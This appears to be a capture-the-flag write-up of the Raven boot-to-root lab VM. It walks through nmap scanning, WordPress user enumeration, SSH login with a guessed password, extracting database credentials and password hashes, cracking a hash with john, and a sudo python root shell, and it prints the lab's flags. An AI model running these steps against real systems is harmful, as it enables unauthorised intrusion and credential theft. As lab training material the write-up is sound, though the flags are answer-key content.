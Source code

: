 # Red Team: Summary of Operations

### Exposed Services and Exploitation

Nmap scan results for each machine reveal the below services and OS details:

First I performed a port scan using `nmap` to enumerate the entire network:

> nmap -Pn 192.168.1.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-28 15:15 PST
Nmap scan report for 192.168.1.1
Host is up (0.00056s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2179/tcp open  vmrdp
3389/tcp open  ms-wbt-server
MAC Address: 00:15:5D:00:04:0D (Microsoft)

> Nmap scan report for 192.168.1.100
Host is up (0.00085s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
9200/tcp open  wap-wsp
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)

> Nmap scan report for 192.168.1.105
Host is up (0.00089s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:15:5D:00:04:0F (Microsoft)

> Nmap scan report for 192.168.1.110
Host is up (0.0011s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:10 (Microsoft)

> Nmap scan report for 192.168.1.115
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:11 (Microsoft)

> Nmap scan report for 192.168.1.90
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

> Nmap done: 256 IP addresses (6 hosts up) scanned in 6.74 seconds

Then I delved more fully into two machines in particular to gather exposed services:

> nmap -sV 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00053s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

> nmap -sV 192.168.1.115
Nmap scan report for 192.168.1.115
Host is up (0.00057s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

The following vulnerabilities were identified on each target:
* Target 1
  - User enumeration

    The team was able to use a Wordpress scan to enumerate the users using the command:

    `wpscan --url http://192.168.1.110 --enumerate u`

    Results of the scan identified two users:

    >3 4m[i][0m User(s) Identified:

    > [32m[+][0m steven
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

    > [32m[+][0m michael
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

  - Weak password

    Attackers were then easily able to `ssh` into the target by guessing the weak password of user `michael`, which was "michael".

    > ssh michael@192.168.1.110    
    > michael@192.168.1.110's password:

    > michael@target1:~$ ls

    Attackers were then able to use `grep` to find "flag1" inside of /var/www/html/service.html:

    > cat /var/www/html/service.html:			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

    Found flag2 the same way.  Traversed the file system and found inside the /var/www directory.

    > michael@target1:~$ cat /var/www/flag2.txt
    > flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

  - Insecure password

    As the attackers were further searching the system, found credentials for the Wordpress database inside of /var/www/html/wp_config.php:

    > /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress');

    > /** MySQL database username */
    define('DB_USER', 'root');

    > /** MySQL database password */
    define('DB_PASSWORD', 'R@v3nSecurity');

    Used those credentials to get into the Wordpress database and find flag3:

    > ichael@target1:~$ mysql -u root -p wordpress
      Enter password:
      Reading table information for completion of table and column names
      You can turn off this feature to get a quicker startup with -A

    >  Welcome to the MySQL monitor.  Commands end with ; or \g.
      Your MySQL connection id is 42
      Server version: 5.5.60-0+deb8u1 (Debian)

      Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.



> mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

select * from wp_posts;

| 2018-08-13 01:48:31 | 0000-00-00 00:00:00 | flag3{afc01ab56b50591e7dccf93122770cd2}

And was able to find additional users hashes in wp_users.

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+

  - Privilege escalation

Was able to use 'john' to crack the password for Steven (pink84), and then use that to escalate privileges and fine flag4:

> michael@target1:~$ su - steven
Password:
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'        
root@target1:/home/steven# cd /root
root@target1:~# ls
flag4.txt
root@target1:~# cat flag4.txt
______                      

| ___ \                    

| |_/ /__ ___   _____ _ __  

|    // _` \ \ / / _ \ '_ \

| |\ \ (_| |\ V /  __/ | | |

\_| \_\__,_| \_/ \___|_| |_|


flag4{715dea6c055b9fe3337544932f2941ce}

CONGRATULATIONS on successfully rooting Raven!

This is my first Boot2Root VM - I hope you enjoyed it.

Hit me up on Twitter and let me know what you thought:

@mccannwj / wjmccann.github.io
